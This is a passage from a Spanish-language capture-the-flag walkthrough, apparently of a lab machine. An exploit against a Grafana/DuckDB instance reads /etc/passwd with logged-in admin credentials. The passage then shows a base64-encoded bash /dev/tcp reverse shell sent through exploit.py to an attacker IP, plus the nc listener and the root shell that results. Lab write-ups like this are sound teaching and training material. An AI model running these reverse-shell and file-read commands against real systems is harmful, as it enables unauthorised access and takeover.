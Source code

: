 Info:

```
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/etc/passwd'):
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

Vemos que esta funcionando de forma correcta, por lo que vamos a probar a ejecutar un comando realizando una `reverse shell` de esta forma:

```shell
echo 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1' | base64 #Codificamos nuestra reverse shell

python3 exploit.py -u admin -p 0D5oT70Fq13EvB5r -c 'bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNS83Nzc3IDA+JjEK | base64 -d | bash"'  http://grafana.planning.htb #Ejecutamos el comando codificado, para que se decodifique cuando se cargue
```

Antes de enviarlo nos pondremos a la escucha de esta forma:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos el comando de antes y volvemos a donde tenemos la escucha veremos que ha funcionado.

```
listening on [any] 7777 ...
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.68] 42566
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7ce659d667d7:~# whoami
whoami
root
```
